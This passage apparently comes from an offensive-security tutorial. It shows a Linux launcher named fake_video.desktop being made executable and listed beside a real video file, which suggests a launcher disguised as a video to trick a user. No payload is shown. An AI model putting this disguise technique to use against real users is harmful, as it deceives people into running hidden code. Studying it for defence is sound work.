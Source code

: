 ![](img/009/009-05.jpg)

Change the `fake_video.desktop` file permissions to elevate its privileges.

```
$ chmod +x fake_video.desktop
```

The new permissions are verified by listing the directory contents. Notice the execute (`-rwxr-xr-x`) permissions.

```
$ ls -l

-rwxr-xr-x 1 root root      353 Apr 12 06:27 fake_video.desktop
-rw-r--r-- 1 root root 15915462 Dec 10 01:55 real_video.mp4
```

